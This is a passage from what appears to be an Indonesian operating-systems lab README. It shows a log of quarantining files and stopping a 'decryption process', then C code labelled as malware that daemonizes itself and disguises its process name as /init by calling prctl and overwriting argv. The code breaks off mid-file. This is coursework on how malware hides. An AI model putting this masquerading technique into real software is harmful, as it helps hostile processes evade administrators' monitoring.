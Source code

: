 log:
```
[18-04-2025][14:33:20] - fileA.txt - Successfully moved to quarantine directory.
[18-04-2025][14:33:30] - Successfully shut off decryption process with PID 12345.
```

---


# Soal 3
## a. Malware yang mengganti nama menjadi /init

### Revisi :
```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/prctl.h>

// Fungsi buat jadi daemon
void jadi_daemon() {
    pid_t pid = fork(); // Membuat proses baru

    if (pid < 0) exit(EXIT_FAILURE); // Gagal fork
    if (pid > 0) exit(EXIT_SUCCESS); // Keluar dari parent

    // Jadi session leader
    setsid();

    // Fork lagi biar nggak dapet terminal
    pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);

    // Ganti direktori kerja ke /
    chdir("/");

    // Tutup input/output terminal
    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);
}

int main(int argc, char *argv[]) {
    jadi_daemon(); // Jalanin fungsi daemon

    // Ganti nama proses di sistem (misalnya terlihat /init)
    prctl(PR_SET_NAME, "/init", 0, 0, 0);

    // Ganti juga argv[0], supaya kalau orang lihat ps/top, namanya juga /init
    char *nama_asli = argv[0];
    int panjang = 0;
    for (int i = 0; i < argc; i++) {
        panjang += strlen(argv[i]) + 1;
    }

    memset(nama_asli, 0, panjang);           // Hapus nama asli
    strncpy(nama_asli, "/init", panjang - 1); // Tulis nama palsu

    // Proses tetap hidup selamanya
```